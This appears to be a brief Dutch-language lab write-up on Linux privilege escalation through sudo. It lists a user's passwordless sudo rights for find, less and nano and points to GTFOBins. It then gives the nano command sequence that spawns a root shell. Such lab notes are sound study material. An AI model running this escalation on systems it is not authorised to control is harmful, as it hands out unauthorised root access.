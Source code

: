 ## sudo

### Stapsgewijs

#### 1. Informatie opvragen

```
sudo -l
```

*Terugkomst:*

```
User karen may run the following commands on ip-10-10-19-10:
    (ALL) NOPASSWD: /usr/bin/find
    (ALL) NOPASSWD: /usr/bin/less
    (ALL) NOPASSWD: /usr/bin/nano
```

**Kan verschillende binarys runnen als sudo (root)**

#### 2. Opzoeken op gtfobins.github.io

![alt text](image.png)

#### 3. Sudo alinea runnen

```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```